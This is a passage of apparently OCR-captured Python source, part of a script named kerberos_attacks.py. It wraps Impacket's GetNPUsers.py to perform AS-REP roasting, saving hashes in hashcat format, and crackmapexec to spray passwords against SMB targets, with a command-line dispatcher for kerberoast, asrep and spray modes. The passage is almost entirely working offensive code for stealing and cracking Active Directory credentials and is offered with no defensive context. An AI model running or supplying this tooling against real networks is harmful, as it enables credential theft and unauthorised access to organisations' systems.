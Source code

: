 ```bash
        'GetNPUsers.py',
        f'{domain}/',
        '-usersfile', users_file,
        '-format', 'hashcat',
        '-outputfile', output_file
    ]
    
    try:
        result = subprocess.run(cmd, capture_output=True, text=True, timeout=300)
        if result.returncode == 0:
            print(f"ASREPRoasting successful. Hashes saved to {output_file}")
            return True
        else:
            print(f"ASREPRoasting failed: {result.stderr}")
            return False
    except subprocess.TimeoutExpired:
        print("ASREPRoasting timed out")
        return False

def password_spray(targets_file, username, password):
    """Perform password spraying against multiple targets"""
    cmd = [
        'crackmapexec', 'smb',
        targets_file,
        '-u', username,
        '-p', password,
        '--continue-on-success'
    ]
    
    try:
        result = subprocess.run(cmd, capture_output=True, text=True, timeout=600)
        print(result.stdout)
        return result.returncode == 0
    except subprocess.TimeoutExpired:
        print("Password spraying timed out")
        return False

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 kerberos_attacks.py <kerberoast|asrep|spray> [args...]")
        sys.exit(1)
    
    attack_type = sys.argv[1]
    
    if attack_type == "kerberoast" and len(sys.argv) == 6:
        domain, username, password, output = sys.argv[2:6]
        kerberoast_attack(domain, username, password, output)
    elif attack_type == "asrep" and len(sys.argv) == 5:
        domain, users_file, output = sys.argv[2:5]
        asreproast_attack(domain, users_file, output)
    elif attack_type == "spray" and len(sys.argv) == 5:
        targets, username, password = sys.argv[2:5]
        password_spray(targets, username, password)
    else:
        print("Invalid arguments for attack type")
EOF
```
